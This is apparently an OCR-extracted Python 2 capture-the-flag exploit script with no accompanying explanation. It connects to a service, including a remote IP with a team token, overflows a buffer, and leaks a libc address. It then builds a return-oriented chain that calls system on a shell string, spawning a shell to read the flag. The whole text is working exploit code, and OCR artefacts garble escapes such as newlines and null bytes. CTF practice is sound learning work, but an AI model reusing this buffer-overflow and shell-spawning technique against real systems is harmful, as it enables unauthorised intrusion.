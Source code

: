 ```
target = False
if not target:
    control = '[&gt;,]'+'&gt;'*16 + '&gt;.'*8 + '&lt;'*8 + '&gt;,'*8 + '&gt;,'*8 + '&gt;,'*8 + ']q'
    if local:
        addr = ('127.0.0.1', 22222)
        sock.connect(addr)
        print control
        sock.send(control)
    else:
        addr = ('120.55.86.95', 22222)
        sock.connect(addr)
        token = 'ad38a9d9daa2a08da38bd6b01a3e0cbe'
        rs(token+'n')
        rs(control)
else:
    addr = ('127.0.0.1', 22222)
    sock.connect(addr)
sock.send((0x208-2)*'a'+'x00')
sleep(1)
__libc_start_main_p_240 = sock.recv(8)
__libc_start_main = translate(__libc_start_main_p_240) - 240 - 5
print '__libc_start_main =', hex(__libc_start_main)
pop_rax_pop_rdi_call_rax = __libc_start_main + 886441
system = __libc_start_main + 149616
bash = __libc_start_main + 1421067
sock.send(struct.pack("&lt;Q", pop_rax_pop_rdi_call_rax))
sock.send(struct.pack("&lt;Q", system))
sock.send(struct.pack("&lt;Q", bash) + 'n')
sock.send("cat flagn")
sleep(2)
print sock.recv(1024)
print sock.recv(1024)
```

